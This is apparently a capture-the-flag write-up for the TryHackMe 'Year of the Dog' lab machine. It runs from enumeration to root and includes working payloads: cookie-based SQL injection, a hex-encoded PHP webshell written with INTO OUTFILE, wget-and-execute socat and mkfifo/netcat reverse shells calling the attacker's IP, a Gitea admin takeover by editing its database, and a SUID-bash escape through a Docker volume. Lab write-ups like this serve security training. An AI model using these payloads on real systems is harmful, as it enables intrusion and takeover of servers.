


year of the dog
THM: Year of the Dog
Enumeration
Rustscan & nmap
Website Enumeration
Nikto Enumeration
It shows that the cookie header does not have a Http-only flag which means that we can change,delete or edit the cookie to our wish.This is a really dangerous thing.One can have complete machine compromise.
Cookie Inspection
We open the website with INSPECT
The only thing of any interest on the webpage is the presence of a cookie: “id”:
It would make sense for this to contain our number in the queue (24, at present time), but it contains a full ID. If we change it to a random value we get an error.
When i changed the value of Cookie ‘id’ to '.
I got SQL error indicating the possibility of SQL Injection.
Next, I tried UNION SELECT statements to get the number of columns. (It was found to be 2)
Value of Cookie: 'UNION SELECT 1,2-- -
We get 2 Displayed in the webpage.
We can now enumerate the database. Example to get the version.
Value of Cookie: 'UNION SELECT 1,version()-- -
We get the version in the webpage as highlighted.
Upon further manual sql injection, we find the table name “queue”. It has 2 columns userID & queueNum
This does not yield us anything it just adds in the random cookie it generates.So now we need to choose another vector as we don’t get any password or credentials.We need to try for a RCE(Remote Code Execution).
Foothold
There are two functions in MySql which help us in achieving this,LOAD_FILE and INTO OUTFILE .Usually these functions are disabled.Lets try in our case. LOAD_FILE helps us in reading the files.
Value of Cookie: 'UNION SELECT 1,LOAD_FILE("/etc/passwd")-- -

We can use this to read the index.php & config.php files. (Further Research)
However, for RCE we will use INTO OUTFILE & a webshell
Note: INTO_OUTFILE uses a string to be uploaded so fully functional PHP Reverse shell might not work.
We will use a simple shell that takes a cmd parameter.
PHP Code:
<?php echo system($_GET['cmd']);?>
Or
<?php echo shell_exec($_GET['cmd']);?>
Or
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";?>
Converted it to HEX online
Hex Value: (3rd One)
3c3f706870206563686f20223c7072653e22202e207368656c6c5f6578656328245f4745545b22636d64225d29202e20223c2f7072653e223b3f3e
We can use it in 2 ways
Value of Cookie: ‘UNION SELECT 1,0x3c3f706870206563686f20223c7072653e22202e207368656c6c5f6578656328245f4745545b22636d64225d29202e20223c2f7072653e223b3f3e INTO OUTFILE '/var/www/html/my_shell.php'-- -
Or
Value of Cookie: 'INTO OUTFILE '/var/www/html/my_shell.php' LINES TERMINATED BY 0x3c3f706870206563686f20223c7072653e22202e207368656c6c5f6578656328245f4745545b22636d64225d29202e20223c2f7072653e223b3f3e-- -
I will use the 2nd one.
Note: Append the above to the existing random cookie value for proper functioning.
FInal Cookie Value: 1487e53db304c8a130c67fb71d10559d' INTO OUTFILE '/var/www/html/my_shell.php' LINES TERMINATED BY 0x3c3f706870206563686f20223c7072653e22202e207368656c6c5f6578656328245f4745545b22636d64225d29202e20223c2f7072653e223b3f3e-- -
Save the Above Cookie & Reload the webpage. Then visit the following URL for RCE
http://10.10.58.33/my_shell.php?cmd=id
We will then use socat for initial connection. We get the static binary from: https://github.com/andrew-d/static-binaries
Start a socat listner on our kali machine:
socat tcp-l:7777 file:`tty`,raw,echo=0
Then host the binary in a python web server & use the following payload.
wget http://10.11.72.31/socat -q -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat tcp:10.11.72.31:7777 exec:"bash -li",pty,stderr,sigint,setsid,sane
We need to URL encode the above payload & then use it in cmd=
https://www.urlencoder.org/
wget%20http%3A%2F%2F10.11.72.31%2Fsocat%20-q%20-O%20%2Ftmp%2Fsocat%3B%20chmod%20%2Bx%20%2Ftmp%2Fsocat%3B%20%2Ftmp%2Fsocat%20tcp%3A10.11.72.31%3A7777%20exec%3A%22bash%20-li%22%2Cpty%2Cstderr%2Csigint%2Csetsid%2Csane%0A
Once we run it in the website. We will get a reverse connection.

Thus, we have initial access.
Lateral Movement
We go into /home directory to find the user dylan. We list the contents of the directory. The user flag is only readable by dylan. We cannot access it yet. However, there is an intresting file named work_analysis
We view its contents & it looks like a copy of auth.log
I grepped the file for the word dylan
We got lucky. The user dylan had wrongly typed his password in the username field & we get clear text password in the file.
SSH Credential Found:
Username: dylan
Password: Labr4d0rs4L1f3
We then login into the server as the above user using SSH & aquire the user flag.
Privilege Escalation
I checked the ip addresses. I found that a docker may be running.
Next I checked for open ports.
ss -tulwn
A port 3000 is open for interal network only.
We can tunnel it using socat to open it on our local kali machine.
/tmp/socat tcp-l:8080,fork,reuseaddr tcp:127.0.0.1:3000 &
We use our previously uploaded socat binary. Redirect the 127.0.0.1:3000 to 8080 on the machine. Finally we use & to background the process & keep using the SSH terminal.
we verfied the same using above. Lets access the port.

Looks like we’re dealing with an internal Gitea service.
We already have a full set of credentials for a user account on the machine, so let’s try them here:
It worked. However, it seems dylan has setup 2-Factor authentication & we are unable to acess further.
Let’s have a look at the /gitea directory. Presumably this is a mounted volume for the container, so maybe it contains some useful information

Our current account (Dylan) appears to own the git and gitea subdirectories. This would seem very odd, until you consider the way that Linux handles user mappings. Dylan has UID 1000 and GID 1000 as his account is the first user account created by the system. If this directory is mapped into the gitea docker container, then it’s conceivable that there is a user account with UID 1000 and GID 1000 inside the container. Any files created with this account would be created with these values, which, outwith the container, belong to Dylan. Thus, outside the container, Dylan has ownership of any shared files created by the user account within the container.
Looking in the /gitea/gitea directory, we see that there is an sqlite3 database called gitea.db, which Dylan owns. This means that we could conceivably overwrite information in the database. Unfortunately, sqlite3 is not installed:
We will download the database for analysis.
Before that, let’s use the Gitea application to register for a new account. Just use any username, email and password. The important thing is that there is an account owned by the attacker inside the database. Note that we currently don’t have any administrative privileges:
[This would add our user details in the database]
I clicked on register & created a demo user so that it would go into the database. Notice that we don't have administrative privileges to make changes to gitea as of NOW.
Now, lets get the database to our local kali machine.
On Target Machine, I hosted to folder containg the DB using python web server.
python3 -m http.server 8000
On Kali Machine, I downloaded the file for further research.
wget http://10.10.151.0:8000/gitea.db
Next, we open the database.
Command Line Way (sqlite3):
Open the database:
sqlite3 gitea.db
List all the tables:
.tables
View the contents of user table:
select * from user;
we can see the dylan user & the demo user we created. Passwords are encrypted though.
Check table schema:
.schema user

Then we select the specific parts we are intrested in:
View specific contents of user table:
select lower_name, is_admin from user;

Then, i used the following update statement to update my demo user's is_admin field to 1.
Next, we check the change using the same select command.
UPDATE user SET is_admin=1 WHERE lower_name="cybex";
Graphical Way (sqlitebrowser):
Note: Graphical way uses (sqlitebrowser) & is much easy
Open Database -> Select Browse Data tab -> Select user table -> Select is_admin column for the demo user -> Change it to 1 -> Apply & quit
Next, I uploaded this modified database & replaced it in the target machine.
Host it using python in Kali machine & download it on the target. (Or just scp)
Kali Machine:
Target Machine:

Then, Login into the gitea application from the browser.
Thus, we are an admin user now.
Let’s create a repository of our own. I’m calling it “Test-Repo”, and choosing to initialise it with a README.md file.
Looking at the settings for our repo, we see that we have access to Git Hooks for the server.
Git Hooks are scripts executed by the server when a commit is pushed to a repository. As we have permission to edit these, we can use this to gain RCE from the Gitea. Is this worth it? Potentially. We’ll be inside the docker container, but if we can privesc inside the container and there happens to be a connected volume (which, looking at /gitea in the host, there looks to be), we may just be able to gain root privileges on the host.
Let’s try it. Set up a netcat listener on the attacking machine, then go to the Git Hooks and alter the “pre-receive” hook (although any of them would do). This is just a bash script, so, at the end of the file, add in:
mkfifo /tmp/f; nc 10.11.9.100 8888 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
Finally press Update Hook.
Setup Listener in Kali Machine.
rlwrap nc -lvnp 8888
Then, as dylan user run the following:
git clone http://localhost:3000/cybex/Test-Repo && cd Test-Repo
echo "Pwned" >> README.md
git add README.md
git commit -m "Exploit"
git push
Now, we check the listner. We have a shell.
We tried for sudo & easily got root access inside the container.
sudo -s : Creates a shell with sudo
Having a look around we see that the contents of /data in the container directly mirror the contents of /gitea on the host. This is our shared volume. We could try copying a shell binary from the container into this directory, but that is unlikely to work due to the differences in distribution (the container being Alpine, and the host being Ubuntu). Instead, let’s set up a webserver as Dylan and download a copy of bash directly from the host. We’ll then set it to have SUID, and be executable by everyone.
Host

Container
Now, back in the host
As the binary was owned by root inside the container, it was mapped to be owned by root on the host, thus giving us our root shell!
Thus, we have root access & we can get the root flag in /root directory of the target host.
Thanks!!